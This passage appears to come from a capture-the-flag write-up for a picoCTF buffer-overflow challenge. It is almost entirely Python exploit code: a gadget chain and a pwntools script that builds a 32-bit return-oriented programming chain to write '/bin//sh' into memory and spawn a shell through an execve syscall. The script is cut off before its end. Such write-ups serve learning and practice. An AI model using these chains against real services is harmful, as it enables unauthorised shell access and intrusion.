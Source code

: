 ```python
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x08049e29) # pop ecx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x080e5060) # padding without overwrite ebx
p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0804a3c2) # int 0x80
```

With a little adjustment to make it neater, we got the exploit ready! 

```python
from pwn import *

binary = './vuln'
elf = context.binary = ELF(binary)

#x = process(binary)
p = remote('saturn.picoctf.net',60316)

payload = b'a'*28
payload+= p32(0x080583b9) # pop edx ; pop ebx ; ret
payload+= p32(0x080e5060) # @ .data
payload+= p32(0x41414141) # padding
payload+= p32(0x080b073a) # pop eax ; ret
payload+= b'/bin'
payload+= p32(0x080590f2) # mov dword ptr [edx], eax ; ret
payload+= p32(0x080583b9) # pop edx ; pop ebx ; ret
payload+= p32(0x080e5064) # @ .data + 4
payload+= p32(0x41414141) # padding
payload+= p32(0x080b073a) # pop eax ; ret
payload+= b'//sh'
payload+= p32(0x080590f2) # mov dword ptr [edx], eax ; ret
payload+= p32(0x080583b9) # pop edx ; pop ebx ; ret
payload+= p32(0x080e5068) # @ .data + 8
payload+= p32(0x41414141) # padding
payload+= p32(0x0804fb80) # xor eax, eax ; ret
payload+= p32(0x080590f2) # mov dword ptr [edx], eax ; ret
payload+= p32(0x08049022) # pop ebx ; ret
payload+= p32(0x080e5060) # @ .data
payload+= p32(0x08049e29) # pop ecx ; ret
payload+= p32(0x080e5068) # @ .data + 8
payload+= p32(0x080583b9) # pop edx ; pop ebx ; ret
payload+= p32(0x080e5068) # @ .data + 8
payload+= p32(0x080e5060) # padding without overwrite ebx
payload+= p32(0x0804fb80) # xor eax, eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
```